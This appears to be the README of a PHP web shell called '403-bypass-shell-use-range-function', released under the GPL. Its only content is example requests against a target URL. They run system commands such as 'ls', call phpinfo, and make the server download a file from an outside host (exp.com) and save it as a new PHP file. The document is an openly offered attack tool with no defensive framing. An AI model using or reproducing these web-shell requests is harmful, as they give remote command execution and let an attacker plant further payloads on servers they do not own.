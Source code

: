 # 403-bypass-shell-use-range-function

## Example Usage
```
http://target.com/ecchi.php?a=system&ecchi[]=ls

get phpinfo
http://target.com/ecchi.php?a=phpinfo&ecchi[]=-3

create file
http://target.com/ecchi.php?a=sum&ecchi[]=(url file ex: http://exp.com/as.txt)&ecchi[]=(name file ex: as.php)
```

## LICENSE
[GNU GPL v3](LICENSE)
